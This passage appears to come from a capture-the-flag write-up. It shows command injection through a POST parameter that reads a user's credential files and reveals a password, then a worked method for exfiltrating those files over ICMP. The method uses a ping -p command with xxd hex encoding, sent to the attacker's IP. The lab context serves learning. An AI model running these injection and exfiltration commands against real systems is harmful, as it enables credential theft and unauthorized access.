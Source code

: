 

    root@kali# curl -s -6 -d "command=cat /home/loki/cred*;" -X POST 'http://[dead:beef::250:56ff:feb2:7cff]:80/' | tail -2 | head -1
    pass: lokiisthebestnorsegod



### Exfil via ping

#### Background

Before I realized that I could just use a `;` to get output on the page,
I was experimenting with getting information via `ping`. I have since
heard that the author intended to have iptables blocking IPv6 traffic
outbound, which means ICMP would have been the only way to get a shell
as www-data, which would have been awesome.

I'll show up through exfiling files here, though going to full shell
shouldn't be much more difficult.

#### Manually

I knew that I could ping myself using the command, as I had tested that
earlier.

On the man page for `ping`, there's this option:

> -p pattern ​ You may specify up to 16padbytes to fill out the packet
> you send. This is useful for diagnosing data-dependent problems in a
> network. For example, -p ff will cause the sent packet to be filled
> with all ones.

So the option takes hex input. I can make that with `xxd`. If I use the
`-p` flag in `xxd`, it just prints raw hex:



    root@kali# echo test | xxd
    00000000: 7465 7374 0a                             test.
    root@kali# echo test | xxd -p
    746573740a



In my first pass, I'll also take advantage of a couple other flags:

-   `-l 16` - only print the first 16 bytes
-   `-s 0` - seek 0 (or 16, 32, etc) bytes before sending

There's also one other bit - when I get to the end of the file, and
there are less than 16 bytes left, the spacing in the ping gets off. So
I'll add "0xdf" characters to the end of the output so I can see it.

The command I'll run is:

`ping -c 1 -p $(echo "0xdf0xdf0xdf0xdf" | cat /home/loki/cred* - | xxd -p -l 16 -s 0) 10.10.14.15`

I get:

